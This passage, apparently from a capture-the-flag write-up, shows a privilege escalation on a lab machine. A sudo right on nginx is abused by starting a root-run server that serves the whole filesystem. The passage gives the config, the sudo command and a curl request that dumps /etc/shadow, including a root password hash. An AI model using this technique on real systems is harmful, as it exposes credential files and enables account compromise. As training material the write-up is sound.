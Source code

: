 ### Create Malicious Webserver

#### File Read

With `sudo nginx`, I solved this by standing up my own server as root. [This
page](https://www.nginx.com/resources/wiki/start/topics/examples/full/) has
example configs. Mine is quite simple. `user` will be root. It must have an
`events` section to define the number of workers, so I’ll pick something
arbitrary. Then I make an `http` section with a server that is hosted from the
system root:

    
    
    user root;
    events {
        worker_connections 1024;
    }
    http {
        server {
            listen 1337;
            root /;
            autoindex on;
        }
    }
    

I’ll start the webserver by running `nginx` with `-c` and the full path to
this file.

    
    
    activemq@broker:~$ sudo /usr/sbin/nginx -c /dev/shm/0xdf.conf 
    

Then I can query this webserver on 1337 and read files as root:

    
    
    activemq@broker:~$ curl localhost:1337/etc/shadow             
    root:$y$j9T$S6NkiGlTDU3IUcdBZEjJe0$sSHRUiGL/v4FZkWjU.HZ6cX2vsMY/rdFBTt25LbGxf1:19666:0:99999:7:::
    daemon:*:19405:0:99999:7:::
    bin:*:19405:0:99999:7:::
    sys:*:19405:0:99999:7:::
    sync:*:19405:0:99999:7:::
    games:*:19405:0:99999:7:::
    man:*:19405:0:99999:7:::
    lp:*:19405:0:99999:7:::
    mail:*:19405:0:99999:7:::
    news:*:19405:0:99999:7:::
    uucp:*:19405:0:99999:7:::
    proxy:*:19405:0:99999:7:::
    www-data:*:19405:0:99999:7:::
    backup:*:19405:0:99999:7:::
    list:*:19405:0:99999:7:::
    irc:*:19405:0:99999:7:::
    gnats:*:19405:0:99999:7:::
    nobody:*:19405:0:99999:7:::
    _apt:*:19405:0:99999:7:::
    systemd-network:*:19405:0:99999:7:::
    systemd-resolve:*:19405:0:99999:7:::
    messagebus:*:19405:0:99999:7:::
    systemd-timesync:*:19405:0:99999:7:::
    pollinate:*:19405:0:99999:7:::
    sshd:*:19405:0:99999:7:::
    syslog:*:19405:0:99999:7:::
    uuidd:*:19405:0:99999:7:::
    tcpdump:*:19405:0:99999:7:::
    tss:*:19405:0:99999:7:::
    landscape:*:19405:0:99999:7:::